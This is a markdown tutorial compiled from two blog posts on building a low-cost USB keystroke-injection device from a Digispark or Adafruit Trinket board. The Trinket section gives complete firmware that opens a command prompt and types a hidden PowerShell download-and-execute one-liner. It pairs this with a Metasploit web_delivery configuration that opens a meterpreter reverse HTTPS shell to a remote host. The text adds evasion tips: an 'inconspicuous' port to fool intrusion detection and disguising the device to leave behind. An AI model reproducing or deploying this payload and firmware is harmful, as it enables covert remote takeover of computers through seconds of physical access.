 # USB Rubber Ducky

The USB Rubber Ducky is a keystroke injection tool disguised as a generic flash drive. Computers recognize it  as a regular keyboard and automatically accept its pre-programmed keystroke payloads at over 1000 words per minute. Seconds of physical access are all it takes to deploy some of the most advanced pen-test attacks or IT automation tasks. But Rubber Ducky can also help practical jokes execution.

## Using Digispark and Duck2Spark

This is an excellent Hak5 hacking tool. An advantage of cheap hardware from generic off the shelf parts is that it is disposable and almost impossible to trace. Using a Digispark development board and some free software. The Digispark is an Attiny85 based micro controller development board similar to the Arduino Uno, only cheaper and smaller.

### Step 1: Setup Digispark Development Environment

Before starting to work with our board, we must have installed the Arduino IDE. After this, we must download the compatibility package of this board, a fairly simple operation.

After installation Open Arduino IDE application, go to File -> Preferences
In the input field named “Additional Boards Manager URLs” enter the following URL.

Open Arduino IDE — Preferences Tools -> Board -> Boards Manager
From the drop down menu select “Contributed”, Select the Digistump AVR Boards package and install it.

Now we need to install Digispark Bootloader Driver. You only need the driver to program it with arduino. Once you program it, it’ll work like a rubber ducky (a generic USB keyboard) on any device you plug it into without any driver.

https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

Finally, go to Tools -> Board, and select Digispark (Default — 16.5mhz) and set it as default.

### Step 2: Turning Digispark into a Rubber Ducky Clone

Rubber Ducky uses a simple scripting language to create payloads. For Digispark, things are not that simple. We need to program our own payloads using Digikeyboard.h and Arduino IDE. There are some scripts available for Digispark ATTiny85 in the internet. But thanks to the work of MaMe82 (Marcus Mengs) you can translate Rubber Ducky Scripts to Digispark with duck2spark project.

A great feature of Duck2spark is that available solutions and tutorials emulating a RuberDucky-like on a DigiSpark suffer from poor keyboard layout support for non-US languages. This is solved by “outsourcing” the problem to DuckEncoder which supports multiple keyboard layouts.

Click Sketch -> Upload or click Upload button on the top left. Open a notepad or any software. Plug in the Digispark USB again and magically “Hello World” will be typed.

Rubber Ducky Payloads can be anything; It changes as per our goals and intentions! We can Create Wireless Network Association, Download and execute payloads, reverse shells, etc. For pen testing engagements we can even use Meterpreter, Empire, Unicorn, or any other powershell payloads.

A final tip use some heat shrink tubing to provide electrical insulation, mechanical protection, sealing, and some stealth to your new Digispark-Ducky. A device that’s cheap enough that you don’t mind leaving it at the scene if you’ve got to pull on your ninja outfit and make a break for it.

## Using the 5V Adafruit Trinket and a micro USB cable

### Step 1

Luckily Adafruit supplies a library for interfacing with a computer as a keyboard so the first step is to #include it. You will need to install the library.

### Step 2

Looking good, I want to run commands on the target machine, I can do that by ‘typing’ the windows key, cmd, enter, then the command.

```c
#include <TrinketKeyboard.h>

void pressEnter() {
	TrinketKeyboard.pressKey(0, 0x28);
	delay(10);
	TrinketKeyboard.pressKey(0,0);
	delay(300);
}

void winRun() {
	TrinketKeyboard.pressKey(0x08, 0x15);
	delay(30);
	TrinketKeyboard.pressKey(0,0);
}

void setup() {
	TrinketKeyboard.begin();
	delay(1000);
	winRun();
	delay(100);
	winRun();
	delay(300);
	// Run cmd
	TrinketKeyboard.print("cmd");
	pressEnter();
	delay(500);
	TrinketKeyboard.print("ipconfig");
	delay(100);
	pressEnter();
}
```

### Step 3

Lets setup our exploit in Metasploit.

We are targeting a 64 bit Windows 10 box for this, so I will choose the PowerShell target, but let’s be clear, this isn’t an exploit against PowerShell. It simply uses it to download and execute a payload from the web server.
```
use exploit/multi/script/web_delivery
```
We need to tell our payload where to download the binary from:
```
set LHOST 1.2.3.4
```
Next we set an inconspicuous port, how about 443. ;)
```
set LPORT 443
```
Metasploit will generate a random URIPATH every time, and we want to be able to use start and stop our listener whenever we like without needing to recompile the code for the Trinket.
```
set URIPATH /
```
We then need to choose Powershell as our delivery method. This exploit supports 3 targets noted by an id, 0: Python, 1: PHP, and 2: Powershell.
```
set TARGET 2
```
Now set a payload, I will use reverse_https because we are using 443 as our port. Should look like a normal connection to most IDSs.
```
set PAYLOAD windows/meterpreter/reverse_https
```
And finally exploit

To make it easy to start and stop our listener we will turn this into a configuration file: usb.rc
```
use exploit/multi/script/web_delivery
set LHOST 1.2.3.4
set LPORT 443
set URIPATH /
set TARGET 2
set PAYLOAD windows/meterpreter/reverse_https
exploit
```
This will give us a payload to run on the target machine:
```
powershell.exe -nop -w hidden -c $N=new-object net.webclient;$N.proxy=[Net.WebRequest]::GetSystemWebProxy();$N.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $N.downloadstring('http://1.2.3.4:8080/');
```
We can now put this into our trinket.

```c

#include <TrinketKeyboard.h>

void pressEnter() {
    TrinketKeyboard.pressKey(0, 0x28);
  	delay(10);
  	TrinketKeyboard.pressKey(0,0);
  	delay(300);
}

void winRun() {
  	TrinketKeyboard.pressKey(0x08, 0x15);
  	delay(30);
  	TrinketKeyboard.pressKey(0,0);
}

void setup() {
  	TrinketKeyboard.begin();
  	delay(1000);
  	winRun();
  	delay(100);
  	winRun();
  	delay(300);
  	// Run cmd
  	TrinketKeyboard.print("cmd");
  	pressEnter();
  	delay(500);
  	TrinketKeyboard.print("powershell.exe -nop -w hidden -c $N=new-object net.webclient;$N.proxy=[Net.WebRequest]::GetSystemWebProxy();$N.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $N.downloadstring('http://1.2.3.4:8080/');"); 
  	delay(100);
  	pressEnter();
}


void loop() {
  	// nothing happens after setup
}
```


## Reference
[Low-cost USB Rubber Ducky pen-test tool for $3 using Digispark and Duck2Spark](https://hackernoon.com/low-cost-usb-rubber-ducky-pen-test-tool-for-3-using-digispark-and-duck2spark-5d59afc1910)

[Building a USB Rubber Ducky for $7](https://medium.com/@EatonChips/building-a-usb-rubber-ducky-for-7-c851aae30a1d)

